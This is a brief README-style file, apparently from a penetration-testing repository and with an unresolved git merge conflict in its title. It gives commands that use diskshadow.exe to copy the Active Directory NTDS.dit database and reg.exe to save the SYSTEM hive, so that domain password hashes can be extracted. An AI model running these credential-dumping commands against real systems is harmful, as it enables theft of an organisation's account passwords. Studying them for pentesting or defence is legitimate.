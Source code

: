 <<<<<<< HEAD
# Use DiskShadow to copy NTDS.dit
=======
# DiskShadowCopyNtds
>>>>>>> 389e97bbc8d4e2ceac9b8c79a23c18e76c5f6d2a

Comes from https://pentestlab.blog/tag/ntds-dit/

To copy the NTDS.dit file to C:\Windows\temp, run:

diskshadow.exe /s c:\windows\temp\diskshadow.txt

To extract password hashes, you will also get an extract of SYSTEM from the registry:

reg.exe save hklm\system c:\windows\temp\reg.bak
